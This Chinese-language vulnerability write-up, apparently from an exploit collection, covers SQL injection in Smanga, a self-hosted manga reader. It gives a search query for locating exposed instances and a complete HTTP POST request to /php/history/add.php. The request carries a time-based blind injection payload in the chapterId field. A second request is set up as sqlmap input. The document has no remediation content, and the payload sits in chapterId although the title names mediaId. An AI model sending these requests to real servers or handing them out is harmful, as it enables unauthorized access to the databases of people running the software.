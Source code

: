 # Smanga mediaId存在SQL注入漏洞

# 一、漏洞简介
Smanga无需配置，docker直装的漫画流媒体阅读工具。以emby plex为灵感，为解决漫画阅读需求而开发的漫画阅读器。Smanga mediaId存在SQL注入漏洞.

# 二、影响版本
+ Smanga

# 三、资产测绘
+ hunter`web.title=="smanga"`
+ 特征

![1704896644693-d87321ff-18ab-47ce-a047-0b7cbeb372e0.png](./img/B-CxjmEk9QXAmBoF/1704896644693-d87321ff-18ab-47ce-a047-0b7cbeb372e0-400765.png)

# 四、漏洞复现
```java
POST /php/history/add.php HTTP/1.1
Host: 
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ak;q=0.8
Cookie: thinkphp_show_page_trace=0|0
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 196

chapterCover=1&chapterId=1' AND (SELECT 6064 FROM (SELECT(SLEEP(5)))bcUs) AND 'IwYx'='IwYx&chapterName=1&chatpterPath=1&chaptertype=image&keyword=1&mangaCover=undefined&mangaId=1&mangaName=&mediaId=1&timestamp=12123123&userId=1
```

![1704897270150-b9afaf47-d6ee-43ba-a9bb-6acd85c5a8f7.png](./img/B-CxjmEk9QXAmBoF/1704897270150-b9afaf47-d6ee-43ba-a9bb-6acd85c5a8f7-394159.png)

sqlmap

```java
POST /php/history/add.php HTTP/1.1
Host: 
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ak;q=0.8
Cookie: thinkphp_show_page_trace=0|0
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 196

chapterCover=1&chapterId=1&chapterName=1&chatpterPath=1&chaptertype=image&keyword=1&mangaCover=undefined&mangaId=1&mangaName=&mediaId=1&timestamp=12123123&userId=1
```

![1704897297677-8ec32e97-be60-4261-aacb-709fb1457a99.png](./img/B-CxjmEk9QXAmBoF/1704897297677-8ec32e97-be60-4261-aacb-709fb1457a99-346321.png)



> 更新: 2024-02-29 23:55:42  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ip5new4ve7mtypcf>